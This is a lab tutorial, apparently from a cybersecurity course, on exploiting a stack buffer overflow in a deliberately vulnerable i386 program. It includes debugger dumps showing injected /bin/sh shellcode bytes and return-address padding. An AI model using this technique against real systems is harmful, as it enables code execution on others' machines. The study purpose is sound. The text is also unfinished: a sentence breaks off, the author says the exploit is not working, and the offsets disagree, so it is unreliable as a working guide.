 \newpage

## Exploiting

In this tutorial we'll review how to proceed with a buffer overflow and exploit it.

Content is heavily based on [1]:

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity3:latest .
```
and run with:
```bash
docker run --privileged -it basic_cybersecurity3:latest
```

----

We'll be using two binaries `vulnerable` (the vulnerable program which takes a parameter) and `exploit2`, a program that takes as a parameter a buffer size, and an offset from its own stack pointer (where we believe the buffer we want to
overflow may live).

An introduction to exploit2 is provided at [2]. They way things work in a simple way is, `exploit2` launches pushes the content of `buff` to an environmental variable called `EGG` and just afterwards, launches a shell with this environmental variable active. Within the shell, we launch `vulnerable` and use `$EGG` as a parameter.
The trick here is that when constructing `buff` in `exploit2`, we obtain the stack pointer (`esp` in i386) of that binary
and substract an arbitrary number we define from it to obtain the address that will be written after the shellcode. This way, we end up with something like this *in the heap* (note that `buff` lives in the *heap*):

```
                              /----------------------\  lower
                              |        shellcode     |  memory
                              |                      |  addresses
                              |----------------------|
                              |                      |
                            | | esp - arbitrary num. |
                    growth  | |                      |
                  direction v |-.-.-.-.-.-.-.-.-.-.-.|
                              |                      |
                              | esp - arbitrary num. |
                              |                      |
                              |-.-.-.-.-.-.-.-.-.-.-.|
                              |                      |
                              | esp - arbitrary num. |
                              |                      |
                              |-.-.-.-.-.-.-.-.-.-.-.|
                                        ...
```
As pointed out, this content gets pushed to the environmental variable `EGG`.

Now, when we launch a shell and subsequently, launch `vulnerable` within the shell our stack is growing as follows:

```
                              /------------------\  higher
                              |                  |  memory
                              |                  |  addresses
                              |------------------|
                              |                  |
                            | |  Stack exploit2  | esp = 0xffffd740
                    growth  | |                  |
                  direction v |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              |    Stack bash    | esp = 0xffffd5a8
                              |                  |
                              |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              | Stack vulnerable | esp = 0xffffd0c0
                              |                  |
                              |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              |       ...        |
                              |                  |                                                            
                              |------------------|
```

*Note: These numbers will only appear when running each binary with GDB. If not, the stack pointer of `exploit2` will appear with weird values like `0xffde5688` and so on.*

What this tells us is that making some simple math `0xffffd740 - 0xffffd0c0 = 1664` we can figure out the offset address needed. In other words, if we substract `1664` to the `esp` value of `exploit2`, we could point to the bits of the `vulnerable`'s stack pointer and pretty much do with it what we want if we overflow the buffer `buffer` of `vulnerable`.

*Note: for some reason, the number needed to get the right address in the stack is not 1664 but 8 bits less: 1656. Not sure why.*

We can double check this by printing the memory of `buff` and `buffer` while debugging `exploit2` and `vulnerable` respectively:

```
pwndbg> p buff
$1 = 0x804b008 "EGG=\353\037^\211v\b1\300\210F\a"...
pwndbg> x/100wx 0x0804b008
0x804b008:	0x3d474745	0x895e1feb	0xc0310876	0x89074688
0x804b018:	0x0bb00c46	0x4e8df389	0x0c568d08	0xdb3180cd
0x804b028:	0xcd40d889	0xffdce880	0x622fffff	0x732f6e69
0x804b038:	0xffffd068	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b048:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b058:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b068:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b078:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b088:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b098:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0a8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0b8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0c8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0d8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0e8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0f8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b108:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b118:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b128:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b138:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b148:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b158:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b168:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b178:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b188:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
```

```
pwndbg> p argv[1]
$3 = 0xffffd493 "\353\037^\211v\b1\300\210F\a\211F\f\260"..
pwndbg> x/100wx 0xffffd493
0xffffd493:	0x895e1feb	0xc0310876	0x89074688	0x0bb00c46
0xffffd4a3:	0x4e8df389	0x0c568d08	0xdb3180cd	0xcd40d889
0xffffd4b3:	0xffdce880	0x622fffff	0x732f6e69	0xffffd068
0xffffd4c3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4d3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4e3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4f3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd503:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd513:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd523:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd533:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd543:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd553:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd563:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd573:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd583:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd593:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5a3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5b3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5c3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5d3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5e3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5f3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd603:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd613:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0

```

*Note: the first 4 bits of the dump in `exploit2` don't match because correspond with the string "EGG="*

Note that `0xffffd0c0` is appended after the shellcode which aims to overwrite the return address of `vulnerable` to jump into the beginning of the stack pointer `esp` which is where the overflowed buffer begins which the malici

Before the following instructions in `vulnerable`:
```C
5     strcpy(buffer,argv[1]);
```

the content of `buffer` should be:

```
pwndbg> p &buffer
$2 = (char (*)[512]) 0xffffd0c0
pwndbg> x/100wx 0xffffd0c0 # similar to "x/100wx &buffer"
0xffffd0c0:	0x00000070	0xf7feff96	0xf7fe933d	0xf7fe1f60
0xffffd0d0:	0xf7fd8241	0xf7f6d298	0xf7ffd53c	0xf7fe4017
0xffffd0e0:	0xf7ffc000	0x00001000	0x00000001	0x03ae75f6
0xffffd0f0:	0xf7ffdad0	0xf7fd5780	0xf7fe1e39	0xf7fd8128
0xffffd100:	0x00000007	0xf7ffdc08	0x6e43a318	0xf7fe263d
0xffffd110:	0x00000000	0x00000000	0xf7fd81a0	0x00000007
0xffffd120:	0xf7fd81c0	0xf7ffdc08	0xffffd17c	0xffffd178
0xffffd130:	0x00000001	0x00000000	0xf7ffd000	0xf7f6d2a2
0xffffd140:	0x6e43a318	0xf7fe1f60	0xf7e252e5	0x0804825e
0xffffd150:	0xf7fd81a0	0x03721d18	0xf7ff5ac4	0xffffd208
0xffffd160:	0xf7ff39f3	0x0d696910	0xf7ffd000	0x00000000
0xffffd170:	0xf7fe1e39	0xf7e15d14	0x000008ea	0xf7fd51b0
0xffffd180:	0xf63d4e2e	0xf7fe263d	0x00000001	0x00000001
0xffffd190:	0xf7e1edc8	0x000008ea	0xf7e1f618	0xf7fd51b0
0xffffd1a0:	0xffffd1f4	0xffffd1f0	0x00000003	0x00000000
0xffffd1b0:	0xf7ffd000	0x0804823d	0xf63d4e2e	0xf7e15f12
0xffffd1c0:	0x000008ea	0xf7e1f618	0xf7e1edc8	0x07b1ea71
0xffffd1d0:	0xf7ff5ac4	0xffffd280	0xf7ff39f3	0xf7fd5470
0xffffd1e0:	0x00000000	0x00000000	0xf7ffd000	0xf7ffdc08
0xffffd1f0:	0x00000000	0x00000000	0x00000000	0xffffd28c
0xffffd200:	0xf7fe1fc9	0x00000000	0xf7ffdad0	0xffffd288
0xffffd210:	0xffffd2d0	0xf7fe2b4b	0x080481fc	0xffffd288
0xffffd220:	0xf7ffda74	0x00000001	0xf7fd54a0	0x00000001
0xffffd230:	0x00000000	0x00000001	0xf7ffd918	0x00f0b5ff
0xffffd240:	0xffffd27e	0x00000001	0x000000c2	0xf7ea26bb
```

stepping through this instruction, the content of `buffer` becomes:

```
pwndbg> p &buffer
$2 = (char (*)[512]) 0xffffd0c0
0xffffd0c0:	0x00000070	0xf7feff96	0xf7fe933d	0xf7fe1f60
0xffffd0d0:	0xf7fd8241	0xf7f6d298	0xf7ffd53c	0xf7fe4017
0xffffd0e0:	0xf7ffc000	0x00001000	0x00000001	0x03ae75f6
0xffffd0f0:	0xf7ffdad0	0xf7fd5780	0xf7fe1e39	0xf7fd8128
0xffffd100:	0x00000007	0xf7ffdc08	0x6e43a318	0xf7fe263d
0xffffd110:	0x00000000	0x00000000	0xf7fd81a0	0x00000007
0xffffd120:	0xf7fd81c0	0xf7ffdc08	0xffffd17c	0xffffd178
0xffffd130:	0x00000001	0x00000000	0xf7ffd000	0xf7f6d2a2
0xffffd140:	0x6e43a318	0xf7fe1f60	0xf7e252e5	0x0804825e
0xffffd150:	0xf7fd81a0	0x03721d18	0xf7ff5ac4	0xffffd208
0xffffd160:	0xf7ff39f3	0x0d696910	0xf7ffd000	0x00000000
0xffffd170:	0xf7fe1e39	0xf7e15d14	0x000008ea	0xf7fd51b0
0xffffd180:	0xf63d4e2e	0xf7fe263d	0x00000001	0x00000001
0xffffd190:	0xf7e1edc8	0x000008ea	0xf7e1f618	0xf7fd51b0
0xffffd1a0:	0xffffd1f4	0xffffd1f0	0x00000003	0x00000000
0xffffd1b0:	0xf7ffd000	0x0804823d	0xf63d4e2e	0xf7e15f12
0xffffd1c0:	0x000008ea	0xf7e1f618	0xf7e1edc8	0x07b1ea71
0xffffd1d0:	0xf7ff5ac4	0xffffd280	0xf7ff39f3	0xf7fd5470
0xffffd1e0:	0x00000000	0x00000000	0xf7ffd000	0xf7ffdc08
0xffffd1f0:	0x00000000	0x00000000	0x00000000	0xffffd28c
0xffffd200:	0xf7fe1fc9	0x00000000	0xf7ffdad0	0xffffd288
0xffffd210:	0xffffd2d0	0xf7fe2b4b	0x080481fc	0xffffd288
0xffffd220:	0xf7ffda74	0x00000001	0xf7fd54a0	0x00000001
0xffffd230:	0x00000000	0x00000001	0xf7ffd918	0x00f0b5ff
0xffffd240:	0xffffd27e	0x00000001	0x000000c2	0xf7ea26bb
```

which seems unchanged. Something's not quite working. **Follow from here**.

Let's launch `exploit2`:
```bash
# Terminal 1
./exploit2 600 1564
gdb --args ./vulnerable $EGG

```

### Resources
- [1] A. One (1996). Smashing the Stack for Fun and Profit. Phrack, 7. Retrieved from http://insecure.org/stf/smashstack.html.
- [2] Basic stack overflow experimentation. Retrieved from https://github.com/vmayoral/cybersecurity_specialization/tree/master/software_security/week1.
